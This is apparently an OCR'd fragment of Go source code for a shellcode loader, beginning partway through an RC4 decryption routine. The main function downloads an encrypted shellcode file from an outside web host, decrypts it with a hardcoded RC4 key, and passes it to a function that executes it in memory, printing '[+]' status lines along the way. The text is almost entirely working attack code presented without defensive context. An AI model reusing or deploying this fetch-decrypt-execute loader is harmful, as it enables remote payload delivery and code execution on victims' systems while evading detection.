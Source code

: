 ```go  
	if err != nil {
		fmt.Errorf(err.Error())
	}

	plaintext := make([]byte, len(ciphertext))
	cipher.XORKeyStream(plaintext, ciphertext)

	return plaintext
}

func downloadFile(url string, filePath string) error {
	// Send GET request to the server
	response, err := http.Get(url)
	if err != nil {
		return err
	}
	defer response.Body.Close()

	// Read the response body into a byte slice
	fileData, err := ioutil.ReadAll(response.Body)
	if err != nil {
		return err
	}

	// Write the byte slice to the output file
	err = ioutil.WriteFile(filePath, fileData, 0644)
	if err != nil {
		return err
	}

	return nil
}

func main() {
	filePath := "encrypted_shellcode.bin"
	url := "http://timsonner.com/encrypted_shellcode.bin"

	fmt.Printf("[+] Downloading file: %s \n", url)
	err := downloadFile(url, filePath)
	if err != nil {
		fmt.Errorf(err.Error())
	}

	encryptedShellcode, err := ioutil.ReadFile(filePath)
	if err != nil {
		fmt.Errorf(err.Error())
	}
	fmt.Println("[+] Encrypted shellcode:")

	fmt.Println(string(encryptedShellcode))

	// Decrypt the shellcode using RC4 with a key
	key := []byte("Secret")
	decryptedShellcode := decryptRC4(key, encryptedShellcode)

	fmt.Println("[+] Decrypted shellcode:")
	fmt.Println(string(decryptedShellcode))

	// Execute the decrypted shellcode in memory
	fmt.Println("[+] Shellcode headed to memory...")
	executeShellcode(decryptedShellcode)
}
```  